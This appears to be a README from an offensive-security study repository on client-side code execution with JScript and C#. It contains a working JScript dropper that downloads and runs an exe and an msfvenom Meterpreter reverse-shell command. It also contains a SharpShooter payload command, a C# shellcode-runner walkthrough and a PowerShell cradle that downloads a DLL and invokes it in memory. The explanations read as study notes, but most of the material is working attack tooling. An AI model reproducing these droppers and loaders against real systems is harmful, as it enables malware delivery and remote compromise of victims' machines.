

# Basic Dropper in JScript

- To perform a HTTP GET Request, we can use the MSXML2.XMLHTTP Object which is based on Microsoft XML Core Services.
- We would be using CreateObject method of the Windows Script Host to instantiate the MSXML2.XMLHTTP Object.

JScript Code :

    var url = "<link to exe file>"
    var Object = WScript.CreateObject('MSXML2.XMLHTTP');
    Object.Open('GET', url, false);
    Object.Send();
    if (Object.Status == 200)
    {
        var Stream = WScript.CreateObject('ADODB.Stream');
        Stream.Open();
        Stream.Type = 1;
        Stream.Write(Object.ResponseBody);
        Stream.Position = 0;
        Stream.SaveToFile("met.exe", 2);
        Stream.Close();
    }
    var r = new ActiveXObject("WScript.Shell").Run("met.exe");

Explanation :

1. We first store the link to the exe file in a variable called url
2. Next we create the Object of MSXML2.XMLHTTP
3. We then create a GET Request to the link
4. Next we send the GET request with Object.Send() command.
5. If the Object Status is 200, that means it was a success and the file was found.
6. We then create a Stream to copy the response into it and save it to a file
7. Using the _ActiveXObject_, we execute a shell command were we execute the exe file.

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms767625%28v%3dvs.85%29
> - https://www.w3schools.com/asp/ado_ref_stream.asp
> - https://en.wikipedia.org/wiki/ActiveX

&nbsp;

# JScript and C#

Just as we did in the previous topics of Invoking Win32 APIs from C# and integrating it in powershell or VBA Script, we will follow a similar approach here.

A Simple Hello World Program can be found [here](./C%23%20Programs/HelloWorld.cs)

Explanation :

1. We first import the required libraries in C#.
2. We then specify the namespace HelloWorld
3. We then specify the classname followed by the Main function.
4. Using the Console.WriteLine method, we can print the text to console.

Compiled exe file can be found [here](./Compiled%20binaries/HelloWorld.exe)

&nbsp;

> Namespaces in C# are used to organize too many classes so that it can be easy to handle the application. In a simple C# program, we use System.Console where System is the namespace and Console is the class. To access the class of a namespace, we need to use namespacename.classname

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.console.writeline?view=netframework-4.8

> Visual Studio > Console (.Net Framwork) template > Build > exe file

&nbsp;

# DotNetToJScript

A project created by James Forshaw in 2017 to execute C# assembly from JScript.

Github Project : https://github.com/tyranid/DotNetToJScript

We can download the latest release. The file also has an example compiled dll file which we can use for testing.

The command for compiling the dll to js file is :


Source Code of ExampleAssembly can be found [here](./C%23%20Programs/ExampleAssembly.cs)
Compiled DLL can be found [here](./Compiled%20binaries/ExampleAssembly.dll)

Explanation :

1. The first function sets the version of the .Net framwork
2. The second function is empty as we did not set the -d flag in DotNetToJscript
3. The next function base64ToStream converts a base64 shellcode to Data stream.
4. The serialized_obj variable stores the serialized base64 blob
5. The entry_class variable stores the name of the class which we want to execute.
6. We then call the setversion() function and the base64ToStream() function
7. The BinaryFormatter object is instantiated from which we call the deserialize method to deserialize the Serialized blob.
8. We then execute relevant methods using the DynamicInvoke and CreateInstance methods.
9. At last we execute the constructor with the help of CreateInstance.

&nbsp;

# Win32 API calls from C#

- Here we can import the Win32 API using the P/Invoke import statements.
- Unlike what was done in powershell, in C# we can directly compile the assembly before sending it to the victim and hence it would get loaded to the memory directly.

Code to execute a simple MessageBox Win32 API can be found [here](./C%23%20Programs/MessageBox.cs)

Compiled source code in exe format can be found [here](./Compiled%20binaries/MessageBox.exe)

Explanation :

1. First the required libraries are imported.
2. We then give a name to the namespace and create a class inside that.
3. The import statement can be found in the https://www.pinoke.net website.
4. The Main method has the Win32 API method which pops a message box.

&nbsp;

# Shellcode runner in C# using Win32 API

We would be using the same methodology as the previous shellcodes. First we would allocate memory, copy the shellcode to it and then create a thread to execute it.

Msfvenom command :

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f csharp EXITFUNC=thread


&nbsp;

C# Code can be found [here](./C%23%20Programs/ShellcodeRunner.cs)

EXE file can be found [here](./Compiled%20binaries/ShellcodeRunner.exe)

Explanation :

1. We first import the namespaces containing important system classes
2. We then specify the namespace and the classname of this project
3. Import the win32 APIs using the P/Invoke Statements
4. Store the shellcode in a variable
5. Allocate memory using the _VirtualAlloc_ by specifying the required size, allocation type and protections.
6. Copy the shellcode into the newly created memory by using the Copy() method.
7. Execute the memory by using the _CreateThread_ Win32 API
8. Use the _WaitForSingleObject_ Win32 API to stop the program from quitting immediately and wait for a shell exit to quit.

> In-Depth explanation of the used Win32 APIs can be found [here](./../Client-Side-Code-Execution-With-Office/README.md#in-memory-shellcode-runner-in-vba)

&nbsp;

# Jscript Shellcode Runner

C# code can be found [here](./C%23%20Programs/JscriptShellcode.cs)

Compiled DLL can be found [here](./Compiled%20binaries/JscriptShellcode.dll)

Jscript can be found [here](./JScript/JscriptShellcode.js)

Explanation:

1. The procedure is the same as what happened in the C# shellcode execution.
2. Here we set the ComVisible to true. This basically acts as a whitelist by preventing unnecessary exposure to COM
3. It is important to make it public or else we would not be able to interact with the Component Object Model(COM)
4. The remaining statements have alread been explained in the previous topic.

DotNetToJscript command :



&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.comvisibleattribute?redirectedfrom=MSDN&view=net-6.0
> - https://stackoverflow.com/questions/15688395/whats-the-deal-with-comvisible-default-and-public-classes-com-exposure
> - https://www.whiteoaksecurity.com/blog/2020-1-23-advanced-ttps-dotnettojscript-part-2/

&nbsp;

# SharpShooter

- A tool called SharpShooter can be used for payload generation of C# source code.
- It leverages James Forshaw's DotNetToJScript
- Github : https://github.com/mdsecactivebreach/SharpShooter
- Example command :

```
python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile <msf generated shellcode> --output <output-filename>
```

&nbsp;

# Reflective Load of Win32 API for In-Memory Powershell

The C# source code can be found [here](./C%23%20Programs/ReflectiveLoad.cs)

The compiled DLL can be found [here](./Compiled%20binaries/ReflectiveLoad.dll)

Powershell script :

    $data = (New-Object System.Net.WebClient).DownloadData('<DLL hosted link>')
    $assem = [System.Reflection.Assembly]::Load($data)
    $class = $assem.GetType("<namespace>.<classname>")
    $method = $class.GetMethod("<method name>")
    $method.Invoke(0, $null)

&nbsp;

Explanation :

1. We first download the data of the hosted dll and store it in a variable
2. We load the assembly in-memory using the Load() method from System.Reflection.Assembly
3. We interact with the loaded DLL using the GetType and GetMethod functions.
4. We then invoke the method hence executing the code in memory.

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.load?view=netframework-4.8
> - https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=netframework-4.8
